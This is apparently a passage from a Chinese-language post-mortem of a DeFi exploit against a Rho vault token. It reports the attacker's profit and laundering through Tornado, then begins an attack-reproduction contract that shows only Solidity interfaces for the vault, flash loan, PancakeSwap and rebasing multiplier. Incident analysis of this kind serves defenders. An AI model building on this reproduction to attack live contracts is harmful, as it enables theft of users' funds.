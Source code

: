     攻击后的 Multiplier：        1859775696136645461169121916829974
    获利：                        184.655 BUSD


攻击者获利后，将所得收益转入tornado混币协议。至此整个攻击流程结束。


## 攻击复现


此次攻击事件中攻击者利用漏洞对合约进行了多次相同攻击，这里只取其中一例作为演示。


攻击合约：


```solidity
pragma solidity ^ 0.8.0;
interface IVault {
    function mint(uint256 amount) external;
    function redeem(uint256 amount) external;
}
interface IRhoToken  {
    function getMultiplier() external view returns (uint256 multiplier, uint256 lastUpdate);
    function setRebasingOption(bool isRebasing) external;
}
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}
interface IBANK{
    function work(uint256 posId, uint256 pid, uint256 borrow, bytes calldata data) external;
}
interface IPerform{
    function performUpkeep(bytes calldata performData) external;
}
interface IPancakeRouter01 {
    function addLiquidity(
        address tokenA,
        address tokenB,
        uint amountADesired,
        uint amountBDesired,
        uint amountAMin,
        uint amountBMin,
        address to,
        uint deadline
    ) external returns (uint amountA, uint amountB, uint liquidity);
}
interface IPancakeFactory {
    function getPair(address tokenA, address tokenB) external view returns (address pair);
}
interface IPancakePair {
    function transfer(address to, uint value) external returns (bool);
}
interface IFlashLoan{
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
}
```